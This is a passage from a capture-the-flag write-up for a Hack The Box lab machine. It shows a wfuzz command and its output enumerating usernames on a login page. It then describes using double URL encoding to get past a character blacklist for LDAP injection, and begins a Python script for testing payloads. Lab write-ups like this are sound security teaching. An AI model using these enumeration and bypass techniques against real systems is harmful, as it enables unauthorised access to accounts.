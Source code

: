 ### Username enumeration

To enumerate the users on the system, I use wfuzz with a wordlist. Luckily, the login page doesn't appear to be rate-limited so I can quickly scan through the wordlists. This part took a while though, I had to try various wordlists from seclists since my first picks didn't contain that user.

```
# wfuzz -c -w /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt --hs "not found" -d "inputUsername=FUZZ&inputOTP=12345" -u http://ctf.htb/login.php

000003:  C=200     68 L	     229 W	   2810 Ch	  "!@#"
000004:  C=200     68 L	     229 W	   2810 Ch	  "!@#%"
000005:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^"
000006:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&"
000011:  C=200     68 L	     229 W	   2810 Ch	  "*****"
000007:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*"
000066:  C=200     68 L	     229 W	   2810 Ch	  "123456*a"
000008:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*("
000009:  C=200     68 L	     229 W	   2810 Ch	  "!@#%^&*()"
005122:  C=200     68 L	     229 W	   2810 Ch	  "Ch4ng3m3!"
005724:  C=200     68 L	     229 W	   2810 Ch	  "*%�Cookie:"
009378:  C=200     68 L	     229 W	   2810 Ch	  "!!Huawei"
011498:  C=200     68 L	     231 W	   2822 Ch	  "ldapuser"     <------
[...]
```

Based on the wfuzz output, I notice that some of the characters seem to be blacklisted by the system. Whenever I use the following characters, the page doesn't return any message at all: `! & * () = \ | <> ~	`

The only valid user I found is: `ldapuser`. When I try that user on the login page, I get a `Cannot login` error message instead of `User not found`.

![](/assets/images/htb-writeup-ctf/cannotlogin.png)

### Testing for LDAP injection

Now that I have the username, I can guess the next part involves LDAP injection. I can get around the blacklisting of the characters by using double URL encoding: `)` becomes `%2529` instead of `%29`.

I made a quick script to test different payloads. The script URL encodes the payload twice (once with `urllib.quote` and the other one automatically with the `post` method).

```python
#!/usr/bin/python

import re
import requests
import urllib

def main():	
	while True:
		cmd = raw_input("> ")

		data = {
			"inputUsername": urllib.quote(cmd),
			"inputOTP": "12345",
		}
```